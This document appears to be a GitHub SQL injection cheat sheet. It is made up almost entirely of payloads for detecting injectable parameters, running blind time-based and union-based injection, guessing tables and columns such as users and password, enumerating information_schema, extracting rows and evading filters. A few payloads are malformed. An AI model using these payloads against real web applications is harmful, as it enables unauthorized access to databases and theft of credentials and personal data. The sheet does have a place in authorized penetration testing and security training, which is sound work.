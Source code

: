 ## SQL-Injection-cheat-sheet

* First try to figure out the vulnerable parameter

__NOTE: If it's a GET request don't forget to url encode the characters.__

```
param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error
```

Try with blind injection payloads if above commands does not produce error

```

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns

```


Try if above queries work by appending comment at the end

```
param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

```

* Now that we know the vulnerable parameter, let's try guessing the table name:

```

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'
```


* Guessing Columns:

```
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.
```


* Now determine number of columns in the current table

```
param=' or 1=1 order by 1#

param=' or 1=1 order by 10#
```

let say there are 3 columns

* Now determine vulnerable columns or columns which are visible

```
param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page
```

Else try

```
param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions
```

Now, lets say column 1,2 are shown in web page

* To futher enumerate

```
param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases

param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#
```

Let say the database name is `public` and table name is `info` with two columns in it `id` and `name`.


```
param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'
```


* BYPASSING filters

we can use case switching or commenting to bypass basic filters

```
param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql
```

* For Oracle DB

Oracle does not have information schema and thus we need some alternatives for it. The link below can be helpful.

https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names


* For Adanced exploitation, we may use sqlmap

## Useful Resources

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990

https://www.scaler.com/topics/sql/sql-injection/


